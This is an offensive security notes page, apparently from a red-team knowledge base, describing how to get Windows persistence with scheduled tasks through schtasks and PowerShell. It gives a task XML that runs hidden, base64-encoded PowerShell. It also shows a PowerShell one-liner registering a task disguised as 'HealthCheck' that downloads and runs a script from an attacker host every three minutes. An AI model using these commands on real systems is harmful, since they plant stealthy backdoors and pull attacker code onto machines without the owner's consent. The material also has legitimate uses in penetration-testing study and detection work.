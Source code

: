 # Schedule Tasks

## 01 - Common Files

```
C:\Windows\System32\schtasks.exe
C:\Windows\SysWOW64\schtasks.exe
```

## 02 - Generate Payloads

### 2.1 - Schedule Task Payload

A template script to execute the payload.

TODO: Check which is the day and month in this XML file.

```xml
<Task version="1.4" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>This is a description</Description>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>yyyy-01-01Thh:mm:ss</StartBoundary>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Actions>
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-nop -w hidden -enc <base64_encoded></Arguments>
    </Exec>
  </Actions>
</Task>
```

### 2.2 - Export XML Payload

#### 2.2.1 - Command Prompt

```
C:\> schtasks.exe /query /xml /tn "<task_name>" > schedule.xml
```

#### 2.2.2 - PowerShell

```
PS C:> Export-ScheduledTask "<task_name>" | Out-File -Encoding ascii payload.xml

PS C:> Export-ScheduledTask "<task_name>" | Out-File -Encoding utf8 payload.xml

PS C:> Export-ScheduledTask "<task_name>" | Out-File -Encoding unicode payload.xml
```

## 03 - Execute Payloads

### 3.1 - Command Prompt

TODO: Use batch scripting one liner by using environment variables to trigger the payload with time delay such as 3 minutes

```
C:\> schtasks.exe /create /mo 1 /sc minute /tn "<task_name>" /tr "<commands>"
```

Import the XML to schedule the task by executing the payload.

> [!TIP]
> Best to create a script to automate the whole process since it requires time duration in order to trigger it.

```
C:\> schtasks.exe /create /xml /tn "<task_name>" payload.xml
```

### 3.2 - PowerShell

```powershell
PS C:\> $action = New-ScheduledTaskAction -Execute "<command>" -Argument "<arguments>"

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 3)
$settings = New-ScheduledTaskSettingsSet -RunOnlyIfNetworkAvailable -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>"
```

Let's use [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/PowerShell|PowerShell]] as example.

```powershell
PS C:\> $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle hidden -c `"IEX (New-Object Net.WebClient).DownloadString('http[s]://<attacker_IP>/payload.ps1')`""

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 3)
$settings = New-ScheduledTaskSettingsSet -RunOnlyIfNetworkAvailable -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "HealthCheck"
```

Import the XML to schedule the task by executing the payload.

> [!TIP]
> Best to create a script to automate the whole process since it requires time duration in order to trigger it.

```
PS C:\> Register-ScheduledTask -TaskName "<task_name>" -Xml (Get-Content '.\payload.xml' | Out-String) -Force

PS C:\> Register-ScheduledTask -TaskName "<task_name>" -Xml (Get-Content '.\payload.xml' -Raw) -Force
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Backdoors/Schedule Tasks/Schtasks/Manual/Living off the Land|Maintaining Access: Schedule Tasks Persistence]]